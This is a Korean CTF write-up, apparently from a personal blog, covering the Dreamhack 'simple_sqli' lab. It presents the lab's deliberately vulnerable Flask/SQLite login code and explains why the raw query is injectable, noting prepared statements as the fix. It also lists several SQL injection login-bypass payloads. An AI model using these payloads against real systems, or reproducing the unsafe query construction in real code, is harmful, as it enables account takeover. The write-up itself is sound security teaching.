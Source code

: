 ```yaml
---
layout : single
title : "STAGE6. SQL Injection (3) : Exercise"
categories: Security
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```



# 드림핵 웹 [함께실습] simple_sqli
## 웹 서비스 분석
### 데이터베이스 구조

```python
#데이터 베이스 파일명을 database.db로 설정
DATABASE = "database.db"
# 파일이 존재하지 않는 경우
if os.path.exists(DATABASE) == False:
    # 파일 생성 및 연결
    db = sqlite3.connect(DATABASE) 
    # users 테이블 생성
    db.execute('create table users(userid char(100), userpassword char(100));')
    # 관리자와 guest 계정 생성 (데이터 입력)
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit() # 쿼리 실행 확정
    db.close() # db 연결 종료
```
<br>

**위의 코드로 생성된 데이터 베이스의 구조**<br>
이 때 guest 계정의 비밀번호는 이요앚가 알 수 있지만, admin 게정은 랜덤하게 생성됨 16바이트의 문자열이기에, 비밀번호를 예상할 수 없다

|userid|userpassword|
|:------:|:---|:---|
|guest|guest|
|admin|랜덤 16바이트 문자열을 Hex 형태로 표현 (32비트)|

### 엔드포인트 : /login

```python
# Login 기능에 대해 GET과 POST HTTP 요청을 받아 처리함
@app.route('/login', methods=['GET', 'POST']) 
def login(): # login 함수 선언
    if request.method == 'GET': 
        # 이용자가 GET 메소드의 요청을 전달한 경우, 이용자에게 ID/PW를 요청받는 화면을 출력
        return render_template('login.html')
    else: # POST 요청을 전달한 경우
        # 이용자의 입력값인 userid를 받은 뒤, 이용자의 입력값인 userpassword를 받고
        userid = request.form.get('userid') 
        userpassword = request.form.get('userpassword')
        # users 테이블에서 이용자가 입력한 userid와 userpassword가 일치하는 회원 정보를 불러옴
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res: # 쿼리 결과가 존재하는 경우
            userid = res[0] # 로그인할 계정을 해당 쿼리 결과의 결과에서 불러와 사용
            if userid == 'admin': # 이 때, 로그인 계정이 관리자 계정인 경우
                return f'hello {userid} flag is {FLAG}' # flag를 출력
            # 관리자 계정이 아닌 경우, 웰컴 메시지만 출력
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        # 일치하는 회원 정보가 없는 경우 로그인 실패 메시지 출력
        return '<script>alert("wrong");history.go(-1);</script>'
```

## 취약점 분석 & 익스플로잇 (Exploit : 취약점 공격)
### 관리자 계정의 비밀번호를 알아내고 올바른 경로로 로그인
위의 login 함수에서 userid와 userpassword를 받은 후, query_db 함수를 사용하여 SQLite에게 질의한다. 이처럼 동적으로 생성한 쿼리를 RawQuery라고 한다. RawQuery를 생성할 때, 이용자의 입력값이 쿼리문에 포함된다면 SQL Injection에 노출된다. 이용자의 입력값을 검사하는 과정이 없기에, 임의의 쿼리문을 userid, userpassword에 삽입하여 공격할 수 있는 것이다. SQL 데이터를 사용할 때 쿼리문을 직접 생성하는 방식이 아닌, Prepared Statement와 ORM(Object Relational Mapping)을 사용하여 해결할 수 있다. Prepared Statement는 동적 쿼리가 전달되면 내부적인 쿼리 분석을 통해 안전한 쿼리문을 생성한다

```python
def query_db(query, one=True): # query_db 함수 선언
    cur = get_db().execute(query) # 연결된 데이터베이스에 쿼리문을 질의
    rv = cur.fetchall() # 쿼리문 내용을 받아오기
    cur.close() # 데이터베이스 연결 종료
    # 쿼리문 질의 내용에 대한 결과를 반환
    return (rv[0] if rv else None) if one else rv 
```
#### 로그인 쿼리

```sql
SELECT * FROM users WHERE userid="{userid}" AND userpassword="{userpassword}";
```
#### SQL Injection 공격 쿼리문 작성

```sql
/*
ID: admin, PW: DUMMY
userid 검색 조건만을 처리하도록, 뒤의 내용은 주석처리하는 방식
*/
SELECT * FROM users WHERE userid="admin"-- " AND userpassword="DUMMY"

/*
ID: admin" or "1 , PW: DUMMY
userid 검색 조건 뒤에 OR (또는) 조건을 추가하여 뒷 내용이 무엇이든, admin 이 반환되도록 하는 방식
*/
SELECT * FROM users WHERE userid="admin" or "1" AND userpassword="DUMMY"

/*
ID: admin, PW: DUMMY" or userid="admin
userid 검색 조건에 admin을 입력하고, userpassword 조건에 임의 값을 입력한 뒤 or 조건을 추가하여 userid가 admin인 것을 반환하도록 하는 방식
*/
SELECT * FROM users WHERE userid="admin" AND userpassword="DUMMY" or userid="admin"

/*
ID: " or 1 LIMIT 1,1-- , PW: DUMMY
userid 검색 조건 뒤에 or 1을 추가하여, 테이블의 모든 내용을 반환토록 하고 LIMIT 절을 이용해 두 번째 Row인 admin을 반환토록 하는 방식
*/
SELECT * FROM users WHERE userid="" or 1 LIMIT 1,1-- " AND userpassword="DUMMY"
```

### 관리자 계정의 비밀번호를 모른 채 로그인을 우회
1. 개발자도구의 네트워크 탭 -> Preserve log
2. userid, password에 guest를 입력하고 login 버튼 클릭
3. /login으로 전송된 POST요청 찾기
4. 하단의 Form Data 확인

#### 비밀번호 길이 파악
#### 비밀번호 획득


